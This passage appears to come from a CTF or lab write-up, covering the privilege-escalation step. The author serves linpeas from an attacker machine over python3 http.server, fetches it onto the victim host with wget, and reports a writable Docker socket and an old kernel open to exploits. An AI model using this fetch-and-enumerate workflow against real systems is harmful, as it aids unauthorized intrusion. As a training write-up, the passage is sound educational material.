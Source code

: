 ## PrivEsc

I transferred linpeas to the machine using python3's http.server:

My Machine:

```
kali@kali:/opt$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Victim Machine:

```
uzJk6Ry98d8C@575d68b41bfa:~$ wget 10.8.203.189:8000/linpeas.sh
converted 'http://10.8.203.189:8000/linpeas.sh' (ANSI_X3.4-1968) -> 'http://10.8.203.189:8000/linpeas.sh' (UTF-8)
--2021-07-28 15:58:30--  http://10.8.203.189:8000/linpeas.sh
Connecting to 10.8.203.189:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 462687 (452K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh                   100%[=============================================>] 451.84K   530KB/s   in 0.9s   

2021-07-28 15:58:31 (530 KB/s) - 'linpeas.sh' saved [462687/462687]

uzJk6Ry98d8C@575d68b41bfa:~$ 
```

Here's a few parts that stick out to me.

Machine is vulnerable to kernel exploits:

```
════════════════════════════════════╣ System Information ╠════════════════════════════════════
╔══════════╣ Operative system                                                                                    
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits                                    
Linux version 3.16.0-11-amd64 (debian-kernel@lists.debian.org) (gcc version 4.9.2 (Debian 4.9.2-10+deb8u2) ) #1 SMP Debian 3.16.84-1 (2020-06-09)
```

We are in a Docker container and we can write to the Docker socket:

```
════════════════════════════════════╣ Containers ╠════════════════════════════════════
╔══════════╣ Container related tools present                                                                     
╔══════════╣ Container details                                                                                   
═╣ Is this a container? ........... docker═╣ Any running containers? ........ No                                 
╔══════════╣ Docker Container details                                                                            
═╣ Am I inside Docker group ....... No                                                                           
═╣ Looking and enumerating Docker Sockets
You have write permissions over Docker socket /run/docker.sock
```
